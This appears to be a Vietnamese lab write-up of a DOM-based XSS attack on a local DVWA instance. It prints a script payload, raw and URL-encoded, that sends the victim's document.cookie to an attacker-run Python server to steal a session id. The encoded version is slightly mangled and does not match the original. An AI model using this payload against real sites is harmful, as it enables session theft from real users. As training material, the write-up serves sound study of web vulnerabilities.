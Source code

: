 # XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%3Ddocument.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)




